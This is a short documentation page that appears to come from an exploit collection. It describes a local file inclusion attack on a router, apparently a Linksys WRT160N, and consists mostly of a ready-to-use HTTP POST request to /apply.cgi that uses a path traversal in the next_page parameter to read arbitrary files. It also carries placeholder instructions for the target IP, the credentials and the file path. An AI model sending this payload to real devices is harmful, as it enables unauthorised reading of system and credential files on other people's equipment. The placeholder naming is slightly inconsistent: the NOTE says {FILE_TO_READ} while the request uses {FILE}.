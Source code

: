 +++
title = "Local File Inclusion"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++

## Local File Inclusion
Make an HTTP POST request to the router like the following:
```
POST /apply.cgi HTTP/1.1
Host: {TARGET_IP}
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Authorization: Basic {BASE_64_CREDENTIALS}
Content-Type: application/x-www-form-urlencoded
Content-Length: 181
Connection: close

submit_type=wsc_method2&change_action=gozila_cgi&next_page=../..{FILE}
```
**NOTE:** Replace {TARGET_IP}, {BASE_64_CREDENTIALS}, {FILE_TO_READ} with the valid IP, credentials, and file to read respectively

![LFI Request](/static/WRT160N-LFI-Request.png)
![LFI Response](/static/WRT160N-LFI-Response.png)
